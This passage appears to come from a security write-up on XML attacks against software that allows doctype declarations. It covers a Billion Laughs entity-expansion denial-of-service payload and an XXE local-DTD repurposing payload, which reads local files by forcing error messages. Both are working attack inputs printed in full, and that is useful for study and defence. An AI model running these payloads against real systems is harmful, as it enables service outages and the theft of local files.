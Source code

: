 
![]({{site.baseurl}}/assets/req5.png)

## The DOS Payload(s)

Another type of attack that this software ends up opening the door to (by allowing doctype declarations) is denial of service. In 2002, the Billion Laughs attack was first reported. The Billion Laughs attack essentially overloads the parser with so many entities that when it tries to expand them all, it exhausts the system and essentially crashes.

There are several variations of this attack, be creative :)

Below you'll find a snippet from Wikipedia.

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## Local DTD Exploitation (DTD repurposing)

Another technique that's relatively new and effective is DTD repurposing. People have been using this technique to exploit XXE on hardened networks that refuse to make outgoing requests for a while now. By using this technique, we can redefine entities in a DTD that already exists on the local file system. We can then successfully make the application spit out errors that it typically wouldn't (see parameter entities).

As an example, this is what a DTD repurposing attack payload would look like:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE resetPassword [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
<!ENTITY % expr 'aaa)>
<!ENTITY &#x25; file SYSTEM "file:///FILE_TO_READ">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
<!ELEMENT aa (bb'>
    %local_dtd;
]>
<resetPassword></resetPassword>

```
